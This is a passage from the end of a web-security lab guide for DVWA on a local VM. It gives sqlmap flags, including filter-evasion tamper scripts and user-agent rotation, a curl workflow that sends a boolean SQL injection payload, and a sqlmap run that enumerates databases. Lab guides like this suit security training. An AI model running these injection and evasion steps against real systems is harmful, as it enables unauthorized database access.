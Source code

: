 After setup, log in via browser `admin/password`, set Security = Low, then continue with the `curl`/`sqlmap` steps above.

---

# 11. Extra sqlmap tips (useful flags)
- `--batch` — non-interactive
- `--level` / `--risk` — increase tests (higher = more checks slower)
- `--technique` — `B,E,U,T,S` select techniques; `BEU` is a good start
- `--tamper` — useful scripts: `space2comment`, `between`, `charencode` vs filters
- `--random-agent` — rotate user agent to avoid naive filters

---

# 12. What to paste back to get help quickly
If something fails, paste the exact output of one or more of these commands and someone (or you) can quickly diagnose:
```bash
sed -n '1,200p' cookies.txt
curl -s -I -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" | sed -n '1,20p'
sudo tail -n 80 /var/log/apache2/error.log
mysql -u dvwauser -p -D dvwa -e "SHOW TABLES;"   # enter dvwapass
```

---

# 13. Sample short workflow to copy and run (one sequence)
```bash
cd ~
# login and save cookies
curl -s -c cookies.txt -d "username=admin&password=password&Login=Login" "http://127.0.0.1/dvwa/login.php" > /dev/null
# set security low
curl -s -b cookies.txt -c cookies.txt -d "security=low&seclev_submit=Submit" "http://127.0.0.1/dvwa/security.php" > /dev/null
# sanity check
curl -s -I -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" | sed -n '1,8p'
# manual boolean test
curl -s -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1%27%20OR%20%271%27=%271&Submit=Submit" -o /tmp/sqli_inj.html
# run sqlmap
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -b cookies.txt -p id --batch --level=3 --risk=2 --dbs | tee sqlmap-dbs.txt
```

---

# 14. Attribution and notes
This guide is tailored to DVWA (Damn Vulnerable Web App) running on a local VM. It consolidates manual curl techniques and sqlmap automation commonly used in web app security labs.

---

**End of guide.**



